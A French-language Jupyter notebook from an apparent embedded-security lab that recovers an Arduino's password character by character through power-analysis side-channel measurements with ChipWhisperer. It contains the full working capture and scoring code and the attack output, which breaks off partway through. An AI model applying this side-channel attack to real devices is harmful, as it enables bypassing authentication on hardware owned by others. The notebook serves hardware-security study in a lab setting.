# Projet Embedded Security — trouver le 1er caractère

Objectif minimal : retrouver **uniquement le premier caractère** du mot de passe.

Idée : la pin 13 de l'Arduino reste haute pendant la vérification, et la vérification
s'arrête au premier caractère faux. Donc le bon premier caractère fait durer la
vérification plus longtemps → trace de puissance plus « active ». On teste chaque
caractère candidat et on garde celui qui donne la plus grande activité.

(Indice du wiki : le premier caractère est `f` — on vérifie si on le retrouve.)


## 1. Mettre le STM32 interne du Nano en haute impédance

À lancer **une fois** pour que le STM32 embarqué ne perturbe pas les mesures de l'Arduino.


In [29]:
import os
import chipwhisperer as cw

FW_DIR  = r"C:\Users\Raphael\ChipWhisperer\chipwhisperer\firmware\mcu\stm32-gpio-tristate"
fw_path = os.path.join(FW_DIR, "gpio-tristate-CWNANO.hex")

if "scope" in globals():
    scope.dis()

scope = cw.scope()
cw.program_target(scope, cw.programmers.STM32FProgrammer, fw_path)
scope.dis()
print("STM32 interne en haute impedance. OK.")

Detected known STMF32: STM32F04xxx
Extended erase (0x44), this can take ten seconds or more
Attempting to program 2455 bytes at 0x8000000
STM32F Programming flash...
STM32F Reading flash...
Verified flash OK, 2455 bytes
STM32 interne en haute impedance. OK.


## 2. Connexion et fonction de capture

Câblage : pin 2=GND, pin 8=5V, pin 10=RX, pin 12=TX, **GPIO4 (trigger) = pin 13**.

`capture_guess` envoie une tentative et renvoie la trace capturée pendant la vérification.
On arme **avant** d'écrire pour ne pas rater le front montant de pin 13 (le trigger).

In [30]:
import numpy as np
import chipwhisperer as cw

if "scope" in globals():
    scope.dis()

scope = cw.scope()
scope.default_setup()          # 7.5 MHz ADC, 5000 echantillons
target = cw.target(scope, cw.targets.SimpleSerial2)
target.baud = 9600

def resync(timeout=400):
    """Vide tout le backlog et attend que l'ATmega soit de nouveau en attente
    d'une ligne (etat aligne). A appeler une fois avant une campagne de captures."""
    target.ser.flush()
    while target.ser.read(200, timeout=timeout):   # lit jusqu'a un silence
        pass
    target.ser.flush()

def capture_guess(guess):
    """Envoie 'guess\\n', capture la trace PENDANT la verif (trigger pin 13),
    PUIS lit la reponse pour rester synchronise : 1 tentative = 1 ligne traitee.
    C'est ce drain de la reponse qui empeche la desynchronisation."""
    scope.arm()
    target.ser.write((guess + "\n").encode("latin-1"))
    timed_out = scope.capture()                     # attend pin 13 (notre tentative)
    target.ser.read(100, timeout=120)               # draine ">> ACCESS DENIED...Enter password:"
    if timed_out:
        return None
    return scope.get_last_trace()

resync()
print("Connecte + synchronise.")
# verif rapide d'alignement : on doit retomber sur une trace valide
_t = capture_guess("f")
print("capture test:", None if _t is None else ("OK, %d samples" % len(_t)))

Connecte + synchronise.
capture test: OK, 5000 samples


In [31]:
# === VERIFICATION : le test de mot de passe part-il bien, et l'ATmega repond-il ? ===

# 1) on vide la reception
try:
    pending = target.ser.in_waiting() or 0
    if pending:
        print("octets en attente avant envoi :", repr(target.ser.read(pending)))
except Exception as e:
    print("in_waiting indisponible :", e)

# 2) on envoie une tentative en surveillant le trigger (pin 13)
essai = "f\n"
scope.arm()
target.ser.write(essai.encode("latin-1"))
timed_out = scope.capture()
print("Tentative envoyee :", repr(essai))
print("Trigger declenche (pin 13 montee) ?", "OUI" if not timed_out else "NON (timeout)")

# 3) on lit ce que l'ATmega renvoie
import time
time.sleep(0.1)
resp = target.ser.read(200)
print("Reponse brute du target :", repr(resp))
print("Longueur reponse :", len(resp) if resp else 0)

# --- interpretation ---
if not resp:
    print("\n>> Rien recu. Causes probables : TX/RX non croises, mauvais baud,")
    print("   ou l'ATmega n'ecoute pas sur cette UART.")
elif timed_out:
    print("\n>> Le target repond mais pin 13 ne declenche pas : verifie pin 13 -> GPIO4.")
else:
    print("\n>> Communication OK : l'ATmega recoit la tentative ET pin 13 declenche.")

in_waiting indisponible : 'SimpleSerial_ChipWhispererLite' object has no attribute 'in_waiting'
Tentative envoyee : 'f\n'
Trigger declenche (pin 13 montee) ? OUI
Reponse brute du target : '>> ACCESS DENIED\r\n\r\nEnter password:\r\n'
Longueur reponse : 37

>> Communication OK : l'ATmega recoit la tentative ET pin 13 declenche.


## 3. Tester chaque caractère — analyse de **puissance** (pas de temps)

On ne mesure plus la *durée* de la vérification. On exploite l'**amplitude** de la
consommation à l'instant précis où la puce compare notre caractère au bon.

Méthode :
1. trace moyennée pour chaque candidat `!`..`~` ;
2. à chaque instant, on regarde de combien chaque candidat s'écarte de la consommation
   « typique » (moyenne de tous les candidats) ;
3. l'**instant de fuite** = l'échantillon où un candidat s'écarte le plus du groupe ;
4. à cet instant, le candidat dont la **puissance** est la plus différente = le bon caractère.

C'est de la SPA : la comparaison correcte produit une signature de puissance distincte,
localisée dans le temps.

Instant de fuite (echantillon): 128
Top 10 par amplitude de fuite de PUISSANCE a cet instant:
  'f' : 0.3389
  '}' : 0.0802
  '(' : 0.0689
  'k' : 0.0667
  'H' : 0.0650
  'K' : 0.0615
  'I' : 0.0572
  '3' : 0.0572
  '<' : 0.0518
  'W' : 0.0483

>>> 1er caractere le plus probable (puissance): 'f'
    ('f' est classe #1 sur 94)








In [33]:
import matplotlib.pyplot as plt

N_REPEAT = 10   # captures moyennees par caractere (monte a 20-30 si bruite)

resync()        # on repart d'un etat aligne

# 1) trace de PUISSANCE moyennee pour chaque caractere candidat
traces = {}
for c in range(33, 127):
    ch = chr(c)
    acc = [tr for tr in (capture_guess(ch) for _ in range(N_REPEAT)) if tr is not None]
    if acc:
        traces[ch] = np.mean(acc, axis=0)

chars = sorted(traces)                          # caracteres effectivement captures
M = np.vstack([traces[ch] for ch in chars])     # matrice (n_car x n_echantillons)

# 2) a chaque instant : ecart de chaque candidat vs la consommation "typique"
mu = M.mean(axis=0)                             # puissance moyenne (tous candidats) par instant
D  = M - mu                                     # ecart de puissance de chaque candidat

# 3) instant de fuite = ou un candidat s'ecarte le plus du groupe
spread  = np.max(np.abs(D), axis=0)             # ecart max entre candidats, instant par instant
t_star  = int(np.argmax(spread))

# 4) a cet instant, le candidat le plus ecarte = caractere correct (fuite de puissance)
score = np.abs(D[:, t_star])
ordre = np.argsort(score)[::-1]
best  = chars[ordre[0]]

print("Instant de fuite (echantillon):", t_star)
print("Top 10 par amplitude de fuite de PUISSANCE a cet instant:")
for i in ordre[:10]:
    print(f"  {chars[i]!r} : {score[i]:.4f}")
print("\n>>> 1er caractere le plus probable (puissance):", repr(best))
if "f" in chars:
    rang_f = list(ordre).index(chars.index("f")) + 1
    print(f"    ('f' est classe #{rang_f} sur {len(chars)})")

# --- Plot 1 : ou ca fuit (ecart max entre candidats a chaque instant) ---
plt.figure(figsize=(12, 3))
plt.plot(spread)
plt.axvline(t_star, color="red", ls="--", label="instant de fuite @ {}".format(t_star))
plt.title("Ecart max de puissance entre candidats (points de fuite SPA)")
plt.xlabel("echantillon"); plt.ylabel("|ecart| puissance"); plt.legend(); plt.tight_layout(); plt.show()

# --- Plot 2 : puissance de chaque candidat, zoom autour de l'instant de fuite ---
a, b = max(0, t_star - 150), min(M.shape[1], t_star + 150)
plt.figure(figsize=(12, 4))
for ch in chars:
    plt.plot(range(a, b), traces[ch][a:b], color="lightgray", linewidth=0.4)
if "f" in traces:
    plt.plot(range(a, b), traces["f"][a:b], color="red", linewidth=1.6, label="'f' (indice wiki)")
plt.plot(range(a, b), traces[best][a:b], color="blue", linewidth=1.0, label="meilleur = {!r}".format(best))
plt.axvline(t_star, color="k", ls=":")
plt.title("Puissance de chaque caractere autour de l'instant de fuite")
plt.xlabel("echantillon"); plt.ylabel("puissance"); plt.legend(); plt.tight_layout(); plt.show()

# --- Plot 3 : amplitude de fuite par caractere (barres) ---
colors = ["red" if ch == "f" else "steelblue" for ch in chars]
plt.figure(figsize=(14, 3))
plt.bar(range(len(chars)), score, color=colors)
plt.xticks(range(len(chars)), chars, fontsize=7)
plt.title("Amplitude de fuite de puissance a l'echantillon {}  ('f' en rouge)".format(t_star))
plt.ylabel("|ecart| puissance"); plt.tight_layout(); plt.show()





Divergence max a l'echantillon 90 valeur 0.28


In [34]:
# === DIAGNOSTIC : la difference bon/mauvais 1er caractere est-elle visible ? ===
# On compare 'f' (suppose correct) a des caracteres surement faux, trace TRES moyennee.
import matplotlib.pyplot as plt

def trace_moyenne(ch, n=20):
    acc = [tr for tr in (capture_guess(ch) for _ in range(n)) if tr is not None]
    return np.mean(acc, axis=0) if acc else None

faux_chars = ["!", "0", "~"]
bon  = trace_moyenne("f", 20)
faux = {ch: trace_moyenne(ch, 20) for ch in faux_chars}

# Vue complete
plt.figure(figsize=(12, 4))
for ch, tr in faux.items():
    if tr is not None:
        plt.plot(tr, linewidth=0.8, label="faux '%s'" % ch)
if bon is not None:
    plt.plot(bon, color="red", linewidth=1.6, label="'f' (suppose correct)")
plt.legend(); plt.title("Diagnostic : 'f' vs caracteres faux (moyenne x20)")
plt.xlabel("echantillon"); plt.ylabel("puissance"); plt.tight_layout(); plt.show()

# Zoom sur le debut, la ou se fait la comparaison
plt.figure(figsize=(12, 4))
for ch, tr in faux.items():
    if tr is not None:
        plt.plot(tr[:600], linewidth=0.9, label="faux '%s'" % ch)
if bon is not None:
    plt.plot(bon[:600], color="red", linewidth=1.6, label="'f'")
plt.legend(); plt.title("Zoom debut de trace (600 premiers echantillons)")
plt.xlabel("echantillon"); plt.ylabel("puissance"); plt.tight_layout(); plt.show()

# Ou 'f' et le faux divergent-ils ? (difference absolue moyennee)
if bon is not None and faux.get("!") is not None:
    diff = np.abs(bon - faux["!"])
    print("Divergence max a l'echantillon", int(np.argmax(diff)), "valeur", round(float(diff.max()), 2))

In [36]:
# === ETAPE 4 : ATTAQUE COMPLETE (caractere par caractere) ===
# On calcule DEUX methodes sur les MEMES captures et on affiche les deux classements,
# pour voir laquelle place le bon caractere en tete a chaque position.
#   Methode A = EXACTEMENT celle qui a trouve 'f' : amplitude a l'instant de spread max,
#               ecart a la MOYENNE des candidats.
#   Methode B = ecart a la MEDIANE (consensus), integre sur toute la trace.
import numpy as np

N_REPEAT    = 10               # captures moyennees par candidat
CHARSET     = [chr(c) for c in range(33, 127)]   # '!'..'~'
MAX_LEN     = 16
MARGIN_STOP = 3.0              # arret si la marge du gagnant < seuil
KNOWN       = "f"              # "f" = indice wiki ; "" pour tout retrouver
METHOD      = "A"              # methode utilisee pour CONSTRUIRE le mot de passe : "A" ou "B"

def oracle(guess, timeout=200):
    target.ser.flush()
    scope.arm()
    target.ser.write((guess + "\n").encode("latin-1"))
    scope.capture()
    return target.ser.read(200, timeout=timeout)

def rank_from_scores(chars, s):
    o = np.argsort(s)[::-1]
    best = chars[o[0]]
    margin = (s[o[0]] - np.median(s)) / (np.std(s) or 1e-9)
    ranking = [(chars[i], float(s[i])) for i in o]
    return best, float(margin), ranking

def score_position(prefix):
    """Capture prefix+chaque candidat, renvoie les resultats des 2 methodes (memes captures)."""
    traces = {}
    for ch in CHARSET:
        acc = [tr for tr in (capture_guess(prefix + ch) for _ in range(N_REPEAT)) if tr is not None]
        if acc:
            traces[ch] = np.mean(acc, axis=0)
    chars = sorted(traces)
    M = np.vstack([traces[c] for c in chars])

    # --- Methode A : identique a la recherche du 'f' ---
    mu = M.mean(axis=0)
    Da = M - mu
    ta = int(np.argmax(np.max(np.abs(Da), axis=0)))     # instant de spread max
    sA = np.abs(Da[:, ta])                              # amplitude a cet instant

    # --- Methode B : ecart a la mediane, integre ---
    ref = np.median(M, axis=0)
    sB = np.abs(M - ref).sum(axis=1)

    return chars, rank_from_scores(chars, sA), ta, rank_from_scores(chars, sB)

def print_top(ranking, n=12, per_line=6):
    for k, (c, v) in enumerate(ranking[:n]):
        end = "\n" if (k % per_line == per_line - 1) else "   "
        print("{!r}:{:10.1f}".format(c, v), end=end)
    if n % per_line != 0:
        print()

# --- boucle principale ---
recovered = KNOWN
print("Depart:", repr(recovered), "| methode de construction:", METHOD)
for pos in range(len(recovered), MAX_LEN):
    resync()
    chars, (bestA, marA, rankA), ta, (bestB, marB, rankB) = score_position(recovered)

    print("\n===== POSITION {}  (prefixe={!r}) =====".format(pos, recovered))
    print("--- Methode A (comme pour 'f', amplitude @ech {}) ---".format(ta))
    print_top(rankA)
    print("   bestA={!r}  margeA={:.1f} sigma".format(bestA, marA))
    print("--- Methode B (ecart a la mediane, integre) ---")
    print_top(rankB)
    print("   bestB={!r}  margeB={:.1f} sigma".format(bestB, marB))

    best, margin = (bestA, marA) if METHOD == "A" else (bestB, marB)
    print("-> retenu ({}): {!r}  marge={:.1f} sigma".format(METHOD, best, margin))

    if margin < MARGIN_STOP:
        print("  -> marge trop faible : fin probable (ou position a affiner).")
        break

    recovered += best
    rep = oracle(recovered)
    print("  => prefixe: {!r}   reponse: {!r}".format(recovered, rep.strip()))
    if "GRANT" in rep.upper():
        print("  *** ACCESS GRANTED : mot de passe complet ! ***")
        break

print("\n==============================")
print("Mot de passe recupere:", repr(recovered))
print("==============================")


Depart: 'f' | methode de construction: A

===== POSITION 1  (prefixe='f') =====
--- Methode A (comme pour 'f', amplitude @ech 135) ---
'7':       0.3   'k':       0.1   'v':       0.1   'h':       0.1   '5':       0.1   'd':       0.1
',':       0.1   '6':       0.1   '%':       0.1   'i':       0.1   'H':       0.1   'g':       0.1
   bestA='7'  margeA=6.2 sigma
--- Methode B (ecart a la mediane, integre) ---
'7':     204.7   '$':     179.7   'R':     171.7   'C':     170.6   ',':     163.2   'D':     158.4
'k':     154.6   '!':     153.9   '>':     150.0   ':':     144.2   '=':     142.2   '4':     141.0
   bestB='7'  margeB=3.6 sigma
-> retenu (A): '7'  marge=6.2 sigma
  => prefixe: 'f7'   reponse: '>> ACCESS DENIED\r\n\r\nEnter password:'

===== POSITION 2  (prefixe='f7') =====
--- Methode A (comme pour 'f', amplitude @ech 141) ---
'-':       0.2   'o':       0.1   '$':       0.1   'a':       0.1   '%':       0.0   'Z':       0.0
'q':       0.0   'c':       0.0   ')':       0.0   '